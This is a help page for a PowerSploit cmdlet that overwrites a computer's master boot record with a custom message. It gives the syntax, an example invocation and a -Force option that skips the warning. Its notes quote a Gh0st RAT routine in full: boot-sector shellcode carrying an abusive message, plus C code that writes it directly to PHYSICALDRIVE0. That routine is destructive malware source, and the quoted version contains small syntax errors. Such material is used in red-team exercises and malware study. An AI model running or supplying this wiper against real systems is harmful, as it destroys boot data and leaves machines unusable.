 # Set-MasterBootRecord

## SYNOPSIS
Proof of concept code that overwrites the master boot record with the
message of your choice.

PowerSploit Function: Set-MasterBootRecord  
Author: Matthew Graeber (@mattifestation) and Chris Campbell (@obscuresec)  
License: BSD 3-Clause  
Required Dependencies: None  
Optional Dependencies: None

## SYNTAX

```
Set-MasterBootRecord [[-BootMessage] <String>] [-RebootImmediately] [-Force] [-WhatIf] [-Confirm]
```

## DESCRIPTION
Set-MasterBootRecord is proof of concept code designed to show that it is
possible with PowerShell to overwrite the MBR.
This technique was taken
from a public malware sample.
This script is inteded solely as proof of
concept code.

## EXAMPLES

### -------------------------- EXAMPLE 1 --------------------------
```
Set-MasterBootRecord -BootMessage 'This is what happens when you fail to defend your network. #CCDC'
```

## PARAMETERS

### -BootMessage
Specifies the message that will be displayed upon making your computer a brick.

```yaml
Type: String
Parameter Sets: (All)
Aliases: 

Required: False
Position: 1
Default value: Stop-Crying; Get-NewHardDrive
Accept pipeline input: False
Accept wildcard characters: False
```

### -RebootImmediately
Reboot the machine immediately upon overwriting the MBR.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: False
Accept pipeline input: False
Accept wildcard characters: False
```

### -Force
Suppress the warning prompt.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: 

Required: False
Position: Named
Default value: False
Accept pipeline input: False
Accept wildcard characters: False
```

### -WhatIf
Shows what would happen if the cmdlet runs.
The cmdlet is not run.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: wi

Required: False
Position: Named
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```

### -Confirm
Prompts you for confirmation before running the cmdlet.

```yaml
Type: SwitchParameter
Parameter Sets: (All)
Aliases: cf

Required: False
Position: Named
Default value: None
Accept pipeline input: False
Accept wildcard characters: False
```

## INPUTS

## OUTPUTS

## NOTES
Obviously, this will only work if you have a master boot record to
overwrite.
This won't work if you have a GPT (GUID partition table).

This code was inspired by the Gh0st RAT source code seen here (acquired from: http://webcache.googleusercontent.com/search?q=cache:60uUuXfQF6oJ:read.pudn.com/downloads116/sourcecode/hack/trojan/494574/gh0st3.6_%25E6%25BA%2590%25E4%25BB%25A3%25E7%25A0%2581/gh0st/gh0st.cpp__.htm+&cd=3&hl=en&ct=clnk&gl=us):

// CGh0stApp message handlers

unsigned char scode\[\] =
"\xb8\x12\x00\xcd\x10\xbd\x18\x7c\xb9\x18\x00\xb8\x01\x13\xbb\x0c"
"\x00\xba\x1d\x0e\xcd\x10\xe2\xfe\x49\x20\x61\x6d\x20\x76\x69\x72"
"\x75\x73\x21\x20\x46\x75\x63\x6b\x20\x79\x6f\x75\x20\x3a\x2d\x29";

int CGh0stApp::KillMBR()
{
	HANDLE hDevice;
	DWORD dwBytesWritten, dwBytesReturned;
	BYTE pMBR\[512\] = {0};

	// ????MBR
	memcpy(pMBR, scode, sizeof(scode) - 1);
	pMBR\[510\] = 0x55;
	pMBR\[511\] = 0xAA;

	hDevice = CreateFile
		(
		"\\\\\\\\.\\\\PHYSICALDRIVE0",
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ | FILE_SHARE_WRITE,
		NULL,
		OPEN_EXISTING,
		0,
		NULL
		);
	if (hDevice == INVALID_HANDLE_VALUE)
		return -1;
	DeviceIoControl
		(
		hDevice,
		FSCTL_LOCK_VOLUME,
		NULL,
		0,
		NULL,
		0,
		&dwBytesReturned,
		NUL
		)
	// ??????
	WriteFile(hDevice, pMBR, sizeof(pMBR), &dwBytesWritten, NULL);
	DeviceIoControl
		(
		hDevice,
		FSCTL_UNLOCK_VOLUME,
		NULL,
		0,
		NULL,
		0,
		&dwBytesReturned,
		NULL
		);
	CloseHandle(hDevice);

	ExitProcess(-1);
	return 0;
}

## RELATED LINKS


